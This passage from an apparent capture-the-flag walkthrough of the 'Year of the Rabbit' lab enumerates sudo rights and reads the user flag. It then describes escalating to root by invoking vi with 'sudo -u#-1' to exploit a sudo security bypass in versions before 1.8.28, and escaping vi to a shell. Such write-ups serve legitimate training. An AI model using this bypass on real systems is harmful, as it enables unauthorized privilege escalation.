 Checking `sudo -l`:

```
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

We can now grab our first user.txt flag in our home directory:

`wc -c /home/gwendoline/user.txt`

```
46 /home/gwendoline/user.txt
```

I continue looking around the system to check things out but don't find much else useful.

There has to be something with the fact that `sudo -l` showed something for this user and I do a search for sudo exploit !root and our second result shows up as:

![](images/yrabbit13.png)

Link -> [sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502)

Inside it shows us that sudo versions before 1.8.28 are vulnerable to this exploit. Checking `sudo -V` shows us:

```
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```

So we should be good to go with this one.

Since this is listed in our `sudo -l` output:

```
(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

All we need to do is run that command with sudo -u#-1 in front of it and we should then be able to break out of vi and maintain our privileges.

For those who don't know how to break out of vi here is the info from [**GTFOBins**](https://gtfobins.github.io/gtfobins/vi/#sudo)

![](images/yrabbit14.png)
